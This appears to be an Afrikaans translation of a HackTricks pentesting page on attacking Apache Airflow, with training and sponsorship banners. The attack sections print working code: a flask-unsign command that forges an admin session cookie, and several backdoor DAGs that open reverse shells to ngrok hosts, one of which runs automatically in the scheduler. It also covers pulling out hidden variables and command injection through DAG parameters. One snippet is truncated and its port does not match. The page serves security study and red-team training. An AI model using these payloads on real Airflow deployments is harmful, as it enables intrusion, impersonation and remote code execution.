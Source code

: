 # Apache Airflow Security

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basiese Inligting

[**Apache Airflow**](https://airflow.apache.org) dien as 'n platform vir **die orkestrering en skedulering van datapipelines of werksvloei**. Die term "orkestrering" in die konteks van datapipelines dui op die proses van rangskikking, koördinering en bestuur van komplekse dataverwerkingsvloei wat uit verskeie bronne ontstaan. Die primêre doel van hierdie georkestreerde datapipelines is om verwerkte en verbruikbare datastelle te verskaf. Hierdie datastelle word wyd gebruik deur 'n menigte toepassings, insluitend maar nie beperk tot besigheidsintelligensie-instrumente, datawetenskap en masjienleer modelle, wat almal fundamenteel is vir die funksionering van groot data toepassings.

Basies sal Apache Airflow jou toelaat om **die uitvoering van kode te skeduleer wanneer iets** (gebeurtenis, cron) **gebeur**.

### Plaaslike Laboratorium

#### Docker-Compose

Jy kan die **docker-compose konfigurasie lêer van** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) gebruik om 'n volledige apache airflow docker omgewing te begin. (As jy op MacOS is, maak seker dat jy ten minste 6GB RAM aan die docker VM gee).

#### Minikube

Een maklike manier om **apache airflow** te **hardloop is om dit met minikube** te hardloop:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Konfigurasie

Airflow mag **sensitiewe inligting** in sy konfigurasie stoor of jy kan swak konfigurasies in plek vind:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Voordat jy begin om Airflow aan te val, moet jy verstaan **hoe toestemmings werk**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Aanvalle

#### Web Konsol Enumerasie

As jy **toegang tot die webkonsol** het, mag jy in staat wees om sommige of al die volgende inligting te bekom:

* **Veranderlikes** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* **Verbindings** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* Toegang tot hulle in `http://<airflow>/connection/list/`
* [**Konfigurasie**](./#airflow-configuration) (Sensitiewe inligting soos die **`secret_key`** en wagwoorde mag hier gestoor wees)
* Lys **gebruikers & rolle**
* **Kode van elke DAG** (wat interessante inligting mag bevat)

#### Herwin Veranderlikes Waardes

Veranderlikes kan in Airflow gestoor word sodat die **DAGs** hul waardes kan **toegang**. Dit is soortgelyk aan geheime van ander platforms. As jy **genoeg toestemmings** het, kan jy hulle in die GUI in `http://<airflow>/variable/list/` toegang.\
Airflow sal standaard die waarde van die veranderlike in die GUI wys, egter, volgens [**hierdie**](https://marclamberti.com/blog/variables-with-apache-airflow/) is dit moontlik om 'n **lys van veranderlikes** in te stel waarvan die **waarde** as **sterretjies** in die **GUI** sal verskyn.

![](<../../.gitbook/assets/image (164).png>)

Egter, hierdie **waardes** kan steeds **herwin** word via **CLI** (jy moet DB-toegang hê), **arbitraire DAG** uitvoering, **API** wat die veranderlikes eindpunt benader (die API moet geaktiveer wees), en **selfs die GUI self!**\
Om toegang tot daardie waardes vanaf die GUI te verkry, kies net die **veranderlikes** wat jy wil toegang en **klik op Aksies -> Eksporteer**.\
'n Ander manier is om 'n **bruteforce** op die **verborge waarde** uit te voer deur die **soekfiltering** totdat jy dit kry:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

As die **`expose_config`** konfigurasie op **Waar** gestel is, kan die **rol Gebruiker** en **bo** die **konfig in die web** **lees**. In hierdie konfig, verskyn die **`secret_key`**, wat beteken enige gebruiker met hierdie geldige kan **sy eie onderteken koekie skep om enige ander gebruikersrekening na te volg**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Agterdeur (RCE in Airflow werker)

As jy **skrywe toegang** het tot die plek waar die **DAGs gestoor word**, kan jy eenvoudig **een skep** wat vir jou 'n **omgekeerde skulp** sal stuur.\
Let daarop dat hierdie omgekeerde skulp binne 'n **airflow werker houer** uitgevoer gaan word:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

As jy iets stel om **uitgevoer te word in die wortel van die kode**, op die oomblik van hierdie skrywe, sal dit **deur die skeduleerder uitgevoer word** na 'n paar sekondes nadat dit binne die DAG se gids geplaas is.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Skepping

As jy daarin slaag om 'n **masjien binne die DAG-kluster te kompromitteer**, kan jy nuwe **DAG-skripte** in die `dags/` gids skep en hulle sal **in die res van die masjiene** binne die DAG-kluster **gekopieer word**.

#### DAG Kode Inspuiting

Wanneer jy 'n DAG vanaf die GUI uitvoer, kan jy **argumente** aan dit **oorgee**.\
Daarom, as die DAG nie behoorlik gekodeer is nie, kan dit **kwulnerabel wees vir Opdrag Inspuiting.**\
Dit is wat in hierdie CVE gebeur het: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles wat jy moet weet om **te begin soek na opdrag inspuitings in DAGs** is dat **parameters** met die kode **`dag_run.conf.get("param_name")`** **toegang verkry**.

Boonop kan dieselfde kwesbaarheid voorkom met **veranderlikes** (let daarop dat jy met genoeg regte die **waarde van die veranderlikes** in die GUI kan **beheer**). Veranderlikes word **toegang verkry met**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
As hulle byvoorbeeld binne 'n bash-opdrag gebruik word, kan jy 'n opdraginjeksie uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

